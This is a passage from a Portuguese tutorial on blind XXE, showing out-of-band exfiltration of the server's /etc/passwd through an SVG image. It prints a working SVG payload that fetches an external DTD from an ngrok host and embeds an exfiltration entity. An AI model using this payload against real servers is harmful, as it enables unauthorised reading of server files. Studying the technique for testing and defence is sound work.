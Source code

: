 Como vimos acima, o XML irá, supostamente, puxar o arquivo de senhas **/etc/passwd** do servidor e nos retornará o resultado do mesmo. Feito isso, vamos enviar para o BurpSuite! 

![Untitled](Hijacking%206ac706b6cc614111a8c65575a1e87471/Untitled%204.png)

Como vimos, nada nos é retornado 😰 .. Mas nem tudo está perdido. Agora, nós estamos tratando de um **BLIND XXE**. O que é isso, afinal? O termo "blind", traduzido do inglês para "cego", significa que nós vamos explorar a vulnerabilidade num contexto onde não veremos o resultado de maneira direta, refletida na index. Ademais, existem formas de você conseguir visualizar o resultado do payload, e nós vamos utilizar de uma técnica chamada de **Out Of Band Exfiltration** utilizando o Collabator.

### XXE OOB com SVG rasterization. 🍄

Primeiramente, para que nos contextualizemos melhor, vamos saber o que é SVG. **SVG** é uma extensão de **imagem** que aceita códigos XML em seu corpo, conforme exibido abaixo:

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg [
<!ELEMENT svg ANY >
<!ENTITY % site SYSTEM "http://7bb9-177-37-177-236.ngrok.io/xxe.xml">
%site;
%param1;
]>
<svg viewBox="0 0 200 200" version="1.2" xmlns="http://www.w3.org/2000/svg" style="fill:red">
      <text x="15" y="100" style="fill:black">se inscreve no canal</text>
      <rect x="0" y="0" rx="10" ry="10" width="200" height="200" style="fill:pink;opacity:0.7"/>
      <flowRoot font-size="15">
         <flowRegion>
           <rect x="0" y="0" width="200" height="200" style="fill:red;opacity:0.3"/>
         </flowRegion>
         <flowDiv>
            <flowPara>&exfil;</flowPara>
         </flowDiv>
      </flowRoot>
</svg>
```
